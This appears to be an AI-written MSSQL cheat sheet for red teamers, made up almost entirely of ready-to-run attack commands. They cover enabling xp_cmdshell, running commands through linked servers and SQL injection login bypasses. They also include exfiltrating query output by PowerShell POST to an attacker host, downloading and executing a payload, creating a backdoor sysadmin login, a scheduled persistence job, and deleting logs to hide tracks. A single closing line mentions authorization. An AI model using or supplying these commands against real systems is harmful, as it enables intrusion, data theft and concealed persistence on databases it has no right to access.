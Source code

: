 Here's a concise **MSSQL Cheat Sheet** specifically for red team members and penetration testers, focusing on common attack vectors and techniques used in offensive security.

### MSSQL Cheat Sheet for Red Team & Penetration Testing

---

### **1. Information Gathering**

#### **Find MSSQL Version**
```sql
SELECT @@VERSION;
```

#### **Find Hostname & Server Info**
```sql
SELECT HOST_NAME(), SERVERPROPERTY('ProductVersion'), SERVERPROPERTY('ProductLevel'), SERVERPROPERTY('Edition');
```

#### **Find Current Database**
```sql
SELECT DB_NAME();
```

#### **List All Databases**
```sql
SELECT name FROM sys.databases;
```

#### **List All Tables in Current DB**
```sql
SELECT * FROM information_schema.tables;
```

#### **List All Columns in a Specific Table**
```sql
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME = 'your_table';
```

---

### **2. Enumeration & Privilege Escalation**

#### **List All Users**
```sql
SELECT name, type_desc, create_date, modify_date FROM sys.database_principals;
```

#### **Check if Current User is SysAdmin**
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```

#### **Check User Roles**
```sql
EXEC sp_helpuser;
```

#### **Enumerate Linked Servers**
```sql
EXEC sp_linkedservers;
SELECT * FROM sys.servers;
```

#### **Find Permissions of Current User**
```sql
SELECT * FROM fn_my_permissions(NULL, 'DATABASE');
```

---

### **3. Lateral Movement & Linked Server Attacks**

#### **Execute a Command on a Linked Server**
```sql
EXEC ('SELECT @@VERSION;') AT LinkedServerName;
```

#### **Use `OPENQUERY` to Execute Commands**
```sql
SELECT * FROM OPENQUERY([LinkedServerName], 'SELECT * FROM master.sys.databases');
```

#### **Create a Linked Server**
```sql
EXEC sp_addlinkedserver @server='LinkedServer', @srvproduct='', @provider='SQLNCLI', @datasrc='IP_OR_HOSTNAME';
```

#### **Execute a Remote Command on a Linked Server (With `xp_cmdshell`)**
```sql
EXEC ('EXEC xp_cmdshell ''dir C:\'';') AT LinkedServerName;
```

#### Find user role on Linked Server
```sql
select myuser from openquery("LinkedServer", 'select system_user as myuser');
```

---

### **4. Privilege Escalation via Stored Procedures**

#### **Enable `xp_cmdshell`**
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

#### **Execute Command Using `xp_cmdshell`**
```sql
EXEC xp_cmdshell 'whoami';
```

#### **Check if `xp_cmdshell` is Enabled**
```sql
EXEC sp_configure 'xp_cmdshell';
```

---

### **5. Data Exfiltration**

#### **Extract Data from a Table**
```sql
SELECT * FROM sensitive_table;
```

#### **Store Output of a Query into a File**
```sql
EXEC xp_cmdshell 'bcp "SELECT * FROM sensitive_table" queryout C:\output.txt -c -T -Slocalhost';
```

#### **Send Output to a Remote Server**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "Invoke-WebRequest -Uri http://attacker-server.com -Method POST -Body (Get-Content C:\output.txt)"';
```

---

### **6. Code Execution**

#### **Run PowerShell from MSSQL**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "IEX(New-Object Net.WebClient).DownloadString(''http://attacker-server.com/script.ps1'')"';
```

#### **Download and Execute Payload via PowerShell**
```sql
EXEC xp_cmdshell 'powershell.exe -Command "(New-Object System.Net.WebClient).DownloadFile(''http://attacker-server.com/payload.exe'', ''C:\payload.exe''); Start-Process C:\payload.exe"';
```

---

### **7. SQL Injection**

#### **Basic Error-Based Injection**
```sql
' OR 1=1; --
```

#### **Extract Database Name via Injection**
```sql
' UNION SELECT DB_NAME(); --
```

#### **Extract Data via Injection**
```sql
' UNION SELECT username, password FROM users; --
```

#### **Bypass Login**
```sql
' OR '1'='1'; --
```

---

### **8. Persistence**

#### **Create a New User**
```sql
CREATE LOGIN backdoor WITH PASSWORD = 'SuperSecret!';
CREATE USER backdoor FOR LOGIN backdoor;
EXEC sp_addsrvrolemember 'backdoor', 'sysadmin';
```

#### **Create a Scheduled Task to Maintain Access**
```sql
EXEC msdb.dbo.sp_add_job @job_name = 'BackdoorPersistence';
EXEC msdb.dbo.sp_add_jobstep @job_name = 'BackdoorPersistence', @step_name = 'RunBackdoor', @subsystem = 'CmdExec', @command = 'powershell.exe -Command "Invoke-WebRequest -Uri http://attacker-server.com/backdoor.ps1"';
EXEC msdb.dbo.sp_add_jobschedule @job_name = 'BackdoorPersistence', @enabled = 1, @freq_type = 4, @freq_interval = 1;
```

---

### **9. Cleansing Tracks**

#### **Clear Logs**
```sql
EXEC sp_cycle_errorlog;
EXEC xp_cmdshell 'del C:\path\to\logfile.log';
```

#### **Delete Suspicious Jobs**
```sql
EXEC msdb.dbo.sp_delete_job @job_name = 'SuspiciousJob';
```

---

### **10. Defenses & Evasion**

#### **Evasion Techniques**
- **Obfuscate PowerShell**: Encode scripts with `Base64` before execution.
- **Use Web Proxies**: Direct traffic through intermediate servers to hide the source.
- **Use Trusted Processes**: Execute commands via trusted Windows services like `ntbackup`.

---

### **Key Tips for MSSQL Pentesting**
- Always check your **user privileges** (`IS_SRVROLEMEMBER`) to see if you have `sysadmin` access.
- Leverage **linked servers** for lateral movement.
- Use `xp_cmdshell` or custom stored procedures to execute system commands.
- Remember that persistence techniques, like creating new users or scheduled jobs, can help maintain access after an initial compromise.
- Be mindful of cleaning up logs and artifacts to hide your tracks.

---

This cheat sheet should give you a solid reference point for common MSSQL attacks used in red team operations. Always make sure to get proper authorization before conducting any security testing!